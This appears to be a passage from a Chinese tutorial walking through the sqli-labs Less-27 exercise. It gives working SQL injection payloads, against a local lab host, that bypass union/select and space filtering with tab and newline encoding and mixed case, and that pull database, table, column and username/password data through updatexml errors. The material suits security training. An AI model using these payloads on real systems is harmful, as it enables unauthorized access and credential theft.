 > $pattern:要搜索的模式，可以是字符串或一个字符串数组
>
> $replacement:用于替换的字符串或字符串数组。
>
> $subject:要搜索替换的目标字符串或字符串数组。

通过代码分析课看到，`/s` 表示区分大小写，则分别过滤了 `union UNION select`，`SELECT Union Select`

### **3. 绕过去除 union 和 select 的 sql 注入**

`%09` 表示空格、表示 or 、union/select 大小写、双写绕过。

Payload：

```
http://127.0.0.1/sqIliLess-27/?id=10000000%27%09%09uniOn%09SelEcT%091,2,3%09%09%271
```

首先，判断是字符型还是数值型---判断是字符型

`?id=1’`

加上`--+`仍然报错，证明进行了过滤

```
http://192.168.70.14:8088/Less-27/?id=1' ||'1
```

- Union 和 select 被过滤
- 空格被过滤

#### 显示位

```
http://192.168.70.14:8088/Less-27/?id=0'%09uNIon%09seLEct%091,2,3||'1
```

#### 数据库名

```
http://192.168.70.14:8088/Less-27/?id=0'%09uNIon%09seLEct%091,database(),3||'1
```



```
爆破数据库名称
http://192.168.70.14:8088/Less-27/?id=0'and%0aupdatexml(1,concat(0x7e,database(),0x7e),1)or'
爆破数据表名称
http://192.168.70.14:8088/Less-27/?id=0'and%0aupdatexml(1,concat(0x7e,(selEct%0agroup_concat(table_name)%0afrom%0ainformation_schema.tables%0awhere%0atable_schema=database()),0x7e),1)or'1
爆破字段名
http://192.168.70.14:8088/Less-27/?id=0'and%0aupdatexml(1,concat(0x7e,(selEct%0agroup_concat(column_name)%0afrom%0ainformation_schema.columns%0awhere%0atable_schema=database()%0aand%0atable_name='users'),0x7e),1)or'1
爆破字段内容
http://192.168.70.14:8088/Less-27/?id=0'and%0aupdatexml(1,concat(0x7e,(selEct(group_concat(username,0x7e,password))from%0ausers),0x7e),1)||'
```
